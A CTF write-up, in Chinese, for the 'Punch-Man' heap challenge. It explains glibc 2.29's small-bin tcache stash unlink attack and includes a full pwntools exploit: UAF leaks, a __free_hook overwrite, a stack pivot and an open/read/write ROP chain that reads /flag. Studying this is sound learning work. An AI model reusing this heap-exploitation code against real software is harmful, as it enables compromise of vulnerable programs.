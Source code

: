 ---
title: Punch-Man
date: 2021-06-24 10:49:43
tags:
----
Punch-Man & tache stash unlink attack
<!--more-->
# **prologue**

很棒的一题，主要使用了libc-2.29下利用 `small bin tache stash` tacache中有6个chunk的情况，攻击效果是类似于之前版本的 `unsorted bin attack` 往任意地址写固定值。

# **analyze**

- libc=2.29
- 保护全开+orw
- UAF
- malloc范围限制在small bin范围

UAF比较明显，很容易泄漏heapbase&libcbase,主要难在利用，因为题目用的是calloc所以不从tcache里面取，有个隐藏菜单可以malloc 0x217，但仅限于tcache满的时候。

所以在这种情况下，tcache和small bin的路已经被锁死了，需要用 `small bin`相关的利用来扩大利用。

# tcache stash in small bin

libc 2.29引入的新机制，可以在[这里][1]看看，和本题相关的简单来说当tcache未满时从small bin取下一个时会将剩下的chunk放入tcache，但是检查不严格。如下可以看到，没有检查bck的fd是不是victim。

```c
#if USE_TCACHE
          /* While we're here, if we see other chunks of the same size,
             stash them in the tcache.  */
          size_t tc_idx = csize2tidx (nb);
          if (tcache && tc_idx < mp_.tcache_bins)
            {
              mchunkptr tc_victim;
              /* While bin not empty and tcache not full, copy chunks over.  */
              while (tcache->counts[tc_idx] < mp_.tcache_count
                     && (tc_victim = last (bin)) != bin)
                {
                  if (tc_victim != 0)
                    {
                      bck = tc_victim->bk;//*
                      set_inuse_bit_at_offset (tc_victim, nb);
                      if (av != &main_arena)
                        set_non_main_arena (tc_victim);
                      bin->bk = bck;
                      bck->fd = bin;
                      tcache_put (tc_victim, tc_idx);
                    }
                }
            }
#endif
```

这里的利用方式有很多，本题中因为最少只能有6个chunk在tcache中（0x220），能达成的效果只有类似unsorted bin atk。

构造方式: small bin 有2个chunk，tcache有6个chunk.

构造small bin 第二个chunk的 fd不变，bk为需要写的地址-0x10。

calloc 掉一个smallbin就可以触发，往构造的地址写一个固定的值。

# solution

我想到的比较方便的是攻击global_max_size。

我的思路：要想获得任意地址写可以走small bin 可以走tcache，但是tcache比较简单先试试tcache；因为只能malloc一个所以要么直接控制heap开始的时候那个tcache结构体要么把计数器改成很大（这个试了一下发现因为寄存器存值所以失败了）；然后目标是tcache结构体，现有能力是任意地址写固定值，所以就自然而然地改掉global_max_size然后fast bin atk

# EXP

```c
from pwn import *
context.arch='amd64'
context.log_level='debug'

context.terminal=['tmux','split','-h']
def cmd(c):
    p.sendlineafter("> ",str(c))
def add(idx,size):
    cmd(1)
    p.sendlineafter(": ",str(idx))
    p.sendafter(": ",size*"A")
def free(idx):
    cmd(4)
    p.sendlineafter(": ",str(idx))
def edit(idx,c):
    cmd(2)
    p.sendlineafter(": ",str(idx))
    p.sendafter(": ",c)
def show(idx):
    cmd(3)
    p.sendlineafter(": ",str(idx))
def punch(c="A"):
    cmd(0xc388)
    p.send(c)
p=process('./pwn')

for x in range(2):
    add(0,0x217)
    free(0)
show(0)
p.readuntil("name: ")
heap=u64(p.readline()[:-1]+b'\0\0')-0x260
for x in range(5): 
    add(0,0x217)
    free(0)

add(0,0x217)
add(1,0x217)
free(0)
show(0)
p.readuntil("name: ")
base=u64(p.readline()[:-1]+b'\0\0')-(0x7ffff7fbfca0-0x7ffff7ddb000)
free(1)
# clear
for x in range(7):
    add(0,0x248)
    free(0)
add(0,0x217)
add(1,0x88)
add(1,0x217)
add(2,0x88)
free(0)
free(1)
add(2,0x248)
punch()
edit(1,p64(0x2160+heap)+p64(0x7ffff7fc1600-0x7ffff7dda000+base-0x10))
add(0,0x217)
free(2)
edit(2,p64(heap))

add(2,0x248)
add(2,0x248)

free_hook=0x1e75a8+base
edit(2,'\0'*0x248)
edit(2,b'\0'*0x20+b'\7'*8+b'\0'*0xa0+p64(free_hook)*0x10)
punch(p64(0x7ffff7f2a550-0x7ffff7dda000+base))

#++++++++++++++++++++++++++++++
# Before starting this module, I 
# hope you have set free_hook
# ==> magic gadget <3 
chunk=heap+0x10
# chunk is Free's first Parameter
#+++++++++++++++++++++++++++++++
payload=p64(0)+p64(chunk)+b'\0'*0x10+p64(0x55e35+base)
libc=ELF("/lib/x86_64-linux-gnu/libc-2.29.so")
libc.address=base
rop = ROP(libc)
sys = rop.find_gadget(['syscall','ret'])[0]
rsp=chunk
rdi=0
rsi=rsp
rdx=0x110
rbp=rsi-8
rcx=sys
payload=payload.ljust(0x68,b'\0')+flat([rdi,rsi,rbp,0,rdx,0,0,rsp,rcx])
edit(2,payload)
gdb.attach(p,'b free')
free(2)

rop.read(3,chunk+0x110,0x100)
rop.write(1,chunk+0x110,0x100)
rop.dump()
pyaload_rw =rop.chain()

rax = rop.find_gadget(['pop rax','ret'])[0]
rdi = rop.find_gadget(['pop rdi','ret'])[0]
rsi = rop.find_gadget(['pop rsi','ret'])[0]
rdx = rop.find_gadget(['pop rdx','ret'])[0]
pyaload_open =flat([rax,0x2,rdi,chunk+0xf8,rsi,0,rdx,0,sys])
pay = pyaload_open+pyaload_rw
p.send(pay.ljust(0xf8,b'\0')+b'/flag\0')

p.interactive()
```

[1]: https://n132.github.io/2021/05/09/New-Check-In-Glibc-2-29.html